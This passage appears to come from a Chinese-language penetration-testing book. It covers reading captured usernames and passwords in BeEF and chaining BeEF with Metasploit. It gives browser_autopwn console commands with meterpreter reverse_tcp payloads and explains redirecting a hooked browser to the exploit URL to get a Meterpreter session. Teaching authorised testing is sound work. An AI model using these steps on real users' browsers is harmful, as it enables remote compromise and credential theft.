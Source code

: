 在 BeEF 中，测试人员可以从**命令结果**列的**数据**字段中查看攻击的历史记录，并得出用户名和密码，如下面的截图所示：

![BeEF 浏览器的漫游](img/3121OS_11_25.jpg)

## 将 BeEF 和 Metasploit 攻击集成

BeEF 和 Metasploit 框架都是使用 Ruby 开发的，可以一起操作来利用目标。因为它使用客户端和服务器端的指纹识别来描述目标，`browser_autopwn`是最成功的攻击之一。

一旦目标被钩住，启动 Metasploit 控制台，并使用以下命令配置攻击：

```
msf > use auxiliary/server/browser_autopwn
msf auxiliary(browser_autopwn) > set LHOST 192.168.43.130
msf auxiliary(browser_autopwn) > set PAYLOAD_WIN32
  windows/meterpreter/reverse_tcp
msf auxiliary(browser_autopwn) > set PAYLOAD_JAVA
  java/meterpreter/reverse_tcp
msf auxiliary(browser_autopwn) > exploit 

```

等待所有相关的漏洞加载完成。在下面的截图示例中，加载了 18 个漏洞。还要注意攻击的目标 URL。在这个例子中，目标 URL 是`http://192.168.43.130:8080/ICprp4Tnf4Z`：

![集成 BeEF 和 Metasploit 攻击](img/3121OS_11_26.jpg)

有几种方法可以指导浏览器点击目标 URL，但是，如果我们已经钩住了目标浏览器，我们可以使用 BeEF 的`redirect`功能。在 BeEF 控制面板中，转到**浏览器** | **钩住的域** | **重定向浏览器**。在提示时，使用此模块指向目标 URL，然后执行攻击。

在 Metasploit 控制台中，您将看到针对目标连续启动的攻击。成功的攻击将打开一个 Meterpreter 会话，如下面的截图所示：

![集成 BeEF 和 Metasploit 攻击](img/3121OS_11_27.jpg)
